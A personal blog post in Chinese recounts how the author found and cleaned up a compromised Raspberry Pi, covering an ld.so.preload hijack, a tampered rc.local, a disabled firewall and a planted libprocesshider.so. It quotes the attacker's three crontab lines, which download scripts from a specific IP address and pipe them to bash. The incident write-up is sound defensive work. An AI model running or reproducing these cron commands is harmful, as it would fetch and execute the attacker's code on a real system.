 ```yaml
---
title: 记一次树莓派被黑后紧急恢复系统和应用的经历
date: 2020-11-28 22:22:22
img: "/images/RaspberryPi 4B.jpg"
cover: false
coverImg: "/images/RaspberryPi 4B.jpg"
toc: false
mathjax: false
categories: 触类旁通
tags:
  - 树莓派
  - 恢复
keywords: 树莓派
summary: 今天突然发现家里树莓派都访问不了，内网穿透全挂了，回家后发现应用也都停了，后来发现是中毒了，好在只有一台树莓派被黑，真是吓尿了...
---
```


## 记一次树莓派被黑后紧急恢复系统和应用的经历

当时的情况是在外面发现我的博客和其他应用都打不开了

然后连 ssh 想看下怎么回事， 发现 ssh 也连不上了，每一台树莓派都连不上了，应该是内网穿透(`frp`)挂了

到家后 ssh 登录内网穿透所在机器，发现到处都在提示 `.../etc/ld.so.preload cannot be preloaded...`

ssh 登录时提示, 使用 docker 命令时等等, 并且 docker 命令全都无法使用, 试了下其他机器，还好其他机器正常

不仅内网穿透挂了，docker 也挂了，开机启动项也都没了

赶紧查查这个提示是啥玩意...

## 在病毒迫害下挣扎

查资料说把 `ld.so.preload` 清空就行了 

```shell
echo "" > /etc/ld.so.preload
reboot
```

清空后重启，还真有效，正常了，重新设置一下内网穿透和开机启动配置

```shell
vim frp/frpc_baozi.ini
vim /etc/rc.local
```

`:wq` 告诉我 `rc.local` 保存失败?! 发现状态是新文件, 从另一个树莓派上传过来 一下试试

```jshell
scp root@192.168.6.130:/etc/rc.local /etc/rc.local
```

我去，又提示文件或文件夹不存在, 进入目录查看，却又发现文件存在...好吧，进去看看啥情况

```shell
cd /etc
ls
```

发现开机启动配置文件 `rc.local` 在啊！

再次编辑 `rc.local` 文件仍然提示是新文件？！

查看文件信息啥情况...

```shell
ls -l rc.l*
```

发现这玩意是个链接, 链接到的 `/etc/rc.d/rc.local`...！ **就在此时系统又出问题了**...再次清空重启(`echo "" > /etc/ld.so.preload && reboot`)后正常

查看另一个树莓派中 `/etc/ld.so.preload` 是有内容的，编辑文件与另一个树莓派的值一样后重启

```shell
vim /etc/ld.so.preload
reboot
```

再次设置内网穿透和启动项，没配完**又跪了**...

再再再次清空和重启(`echo "" > /etc/ld.so.preload && reboot`), 感觉是被黑了，查看最近历史命令 `history 1000`, 没发现什么异常, 好吧没啥头绪

但是既然刚才发现这个是连接，干脆删了，从另一个树莓派再穿一次过来试试, 看看可不可以

```shell
rm -rf rc.local
scp root@192.168.6.130:/etc/rc.local /etc/rc.local
cat /etc/rc.local
```
这次查看文件内容正常, 紧接着**叕开始报错了！！！** 清空，重启！

此时我敢肯定是被种木马了...

## 反击

赶紧趁现在还能偶尔正常操作会儿，备份下 docker 镜像

```shell
docker login
docker push crazybun/arm-jenkins-jdk8
docker push crazybun/arm-oracle-jdk
docker push crazybun/maven
```

又不正常了，报错的时候 docker 也会跪, 发现 `rc.local` 又变了, **有东西`一直`在改我系统文件**

查了下可以用 `chattr` 给文件或文件夹加锁/解锁

清空，这回给 `/etc` 目录加锁后重启

```shell
echo "" > /etc/ld.so.preload
chattr +i /etc
reboot
```

这总是一会儿就跪，有定时任务吧，查看定时任务看看有没有什么猫腻

```shell
crontab -l
# 多了这么三行
*/30 * * * * curl -A fczyo-cron/1.5 -sL http://34.92.166.158:8080/files/xanthe | bash -s >/dev/null 2>&1
*/30 * * * * curl -A fczyo-cron/1.5 -sL http://34.92.166.158:8080/files/xesa.txt | bash -s >/dev/null 2>&1
*/30 * * * * curl -A fczyo-cron/1.5 -sL http://34.92.166.158:8080/files/fczyo | bash -s >/dev/null 2>&1
```

卧槽还真有东西！在 windows 打开一个连接立刻就报病毒了！

立刻编辑定时任务删掉这些不是我添加的定时任务，重启

```shell
crontab -e
reboot
```

检查防火墙状态...结果是空的，之前的配置都没了，貌似所有端口都允许访问了, 防火墙被关了...

```shell
# 查看防火墙状态
sudo ufw status
# 开启防火墙
sudo ufw enable
# 默认全部拒绝
sudo ufw default deny
# 添加自己允许访问的端口
sudo ufw allow ...
# 检查状态
sudo ufw status
```

给定时任务目录也加锁

```shell
chattr +i /var/spool/cron/
```

查看 `lib` 是否有多余的包, 对比另一个树莓派，还真有一个 `libprocesshider.so`

```shell
cd /usr/local/lib
ls -l
```

查看修改创建时间，就昨天创建的。。。赶紧删掉！

```shell
stat libprocesshider.so
rm -f libprocesshider.so
```

暂时是想不到其他东西了，但还是很害怕，好在这个树莓派里只有几个应用，数据库不在这里...

还是备份好应用后重装系统保险些，暂时先恢复应用跑起来吧，好歹也写了个简易自动交(kui)易(qian)程序呢，应用停了感觉亏(zhuan)了一个亿！

## 恢复

回头继续配置内网穿透

对比另一个树莓派中 `rc.local` 链接的目标是不存在的，解锁，删除！从另一个树莓派中再拷贝过来，修改配置，加锁重启一气呵成

```shell
chattr -i /etc
rm -rf /etc/rc.d/rc.local
rm -rf rc.local
scp root@192.168.6.130:/etc/rc.local ./rc.local
vim /etc/rc.local
chattr +i /etc
reboot
```

内网穿透开机自启终于正常工作了，应用也稳定跑起来了

终于告一段落，有时间重装下系统最稳，不知道还有啥东西被改了呢。。。
